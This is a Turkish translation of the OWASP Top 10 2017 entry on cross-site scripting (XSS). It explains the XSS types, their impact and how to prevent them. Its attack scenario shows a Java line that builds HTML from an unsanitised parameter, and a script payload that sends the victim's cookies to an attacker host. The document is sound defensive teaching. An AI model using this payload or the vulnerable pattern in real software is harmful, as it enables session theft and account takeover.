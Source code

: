 # A7:2017 Siteler Arası Betik Çalıştırma (XSS)

| Tehdit etkenleri/Saldırı vektörleri | Güvenlik zafiyeti           | Etkiler               |
| -- | -- | -- |
| Erişim Düzeyi : İstismar Edilebilirlik 3 | Yaygınlık 3 : Tespit Edilebilirlik 3 | Teknik 2 : İş |
| Otomatize araçlar XSS'in 3 türünü de tespit ve istismar edebilmektedir. Ayrıca ücretiz olarak erişilebilir istismar araçları da bulunmaktadır. | XSS OWASP İlk 10 içerisindeki en yaygın ikinci problemdir ve tüm uygulamaların yaklaşık üçte ikisinde görülmektedir. Otomatize araçlar, özellikle PHP, J2EE / JSP ve ASP.NET gibi olgun teknolojilerde otomatik olarak bazı XSS problemlerini bulabilmektedir. | Yansıtılmış ve DOM XSS için etki orta düzeyde ve depolanmış XSS için giriş bilgilerini ve oturumları çalma veya kurbana zararlı yazılım bulaştırma gibi kurbanın tarayıcısında uzaktan kod çalıştırmada olduğu gibi ciddi düzeydedir. |

## Uygulamam Açıklık İçeriyor Mu?

Genellikle kullanıcıların tarayıcılarını hedef alan XSS'in üç farklı türü bulunmaktadır:

* **Yansıtılmış XSS**: Uygulama veya API, HTML çıktısının bir parçası olarak doğrulanmamış veya sterilize edilmemiş kullanıcı girdisi içermektedir. Başarılı bir saldırı saldırganın kurbanın tarayıcısında istediği HTML veya JavaScript kodunu çalıştırmasına izin vermektedir. Genellikle, kullanıcının zararlı Watering Hole web sayfaları, reklamlar veya benzerleri gibi saldırgan tarafından kontrol edilen bir sayfaya işaret eden kötücül bir bağlantı ile etkileşime geçmesi gerekmektedir.
* **Depolanmış XSS**: Uygulama veya API başka bir kullanıcı veya bir yönetici tarafından daha sonra görüntülenecek sterilize edilmemiş bir kullanıcı girdisini saklamaktadır. Depolanmış XSS genellikle yüksek veya kritik bir bulgu olarak değerlendirilmektedir.
* **DOM XSS**: Bir sayfa üzerinde saldırgan tarafından kontrol edilebilen veriyi dinamik olarak ekleyen JavaScript çerçeveleri, tek sayfa uygulamaları ve API'ler DOM XSS zafiyeti içermektedir. İdeal olarak, uygulama saldırgan tarafından kontrol edilen veriyi güvensiz JavaScript API'lerine yollamayacaktır.

Sıradan XSS saldırıları oturum çalma, hesap ele geçirme, MFA atlatma, DOM nod değiştirme veya bozma (trojan giriş panelleri gibi), zararlı yazılım indirme, klavye kaydetme ve diğer istemci taraflı saldırılar gibi kullanıcının tarayıcısına karşı yapılan saldırılardır.

## Nasıl Önlenir

XSS açıklığının önlenmesi güvenilmeyen verinin aktif tarayıcı içeriğinden ayırılmasını gerektirmektedir. Bu aşağıdakiler aracılığıyla yapılabilmektedir:

* Ruby on Rails, React JS gibi tasarımsal olarak XSS'i kendiliğinden sterilize eden çerçevelerin kullanımı. Her bir çerçevenin XSS koruma limitleri öğrenilmeli ve kapsamları dışında kalan kullanım örneklerinin üstesinden gelinmelidir.
* HTML çıktısında yer aldığı bağlama göre (body, attribute, JavaScript, CSS veya URL) güvenilmeyen HTTP isteği girdilerinin sterilize edilmesi Yansıtılmış ve Depolanmış XSS açıklıklarını çözecektir. [OWASP Kopya Kağıdı: XSS Korumaları](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) gerekli veri sterilizasyon teknikleri ile ilgili detayları içermektedir.
* İstemci tarafındaki tarayıcı dokümanı değiştirilirken bağlama duyarlı kodlamanın kullanılması DOM XSS açıklığına karşı koruma sağlamaktadır. Bu durum kaçınılmaz olduğunda, OWASP Kopya Kağıdı: DOM tabanlı XSS Koruması isimli dokümanda belirtildiği gibi bağlama duyarlı strelizasyon teknikleri tarayıcı API'lerine uygulanabilir.
* XSS'e karşı derinlemesine savunma kontrolü olarak bir [İçerik Güvenlik Politikası'nın (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) kullanılması. Eğer iç dosya ekleme(örn. dizin aşımı veya izin verilen içerik teslim ağlarından zafiyet içeren kütüphaneler) aracılığıyla zararlı kodun eklenmesine yol açabilecek başka bir açıklık bulunmuyorsa, etkili olacaktır.

## Örnek Saldırı Senaryoları

**Senaryo #1**: Uygulama doğrulama veya sterilizasyon olmadan aşağıdaki HTML parçasının oluşturulmasında güvenilmeyen veriyi kullanmaktadır.

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
Saldırgan tarayıcısında 'CC' parametresini aşağıdaki gibi değiştirmektedir:

`'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Bu saldırı kurbanın oturum ID değerinin saldırganın sitesine yollanmasına yol açmakta, bu durum da saldırganın kullanıcının mevcut oturumunu ele geçirmesine izin vermektedir.

**Not**: Saldırganlar uygulamada kullanılacak herhangi bir otomatize Siteler Arası İstek Sahteciliği (CSRF) korumasını atlatmak için XSS açıklığını kullanabilmektedir.

## Kaynaklar

### OWASP

* [OWASP Proaktif Kontroller: Verinin Kodlanması](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Proaktif Kontroller: Verinin Doğrulanması](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Uygulama Güvenliği Doğrulama Standardı: V5](https://owasp.org/www-project-application-security-verification-standard/)
* [OWASP Test Rehberi: Yansıtılmış XSS Testleri](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
* [OWASP Test Rehberi: Depolanmış XSS Testleri](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
* [OWASP Test Rehberi: DOM XSS Testleri](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
* [OWASP Kopya Kağıdı: XSS Önlemleri](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [OWASP Kopya Kağıdı: DOM tabanlı XSS Önlemleri](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
* [OWASP Kopya Kağıdı: XSS Filtre Atlatma](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* [OWASP Java Encoder Projesi](https://owasp.org/www-project-java-encoder/)

### Dış Kaynaklar

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
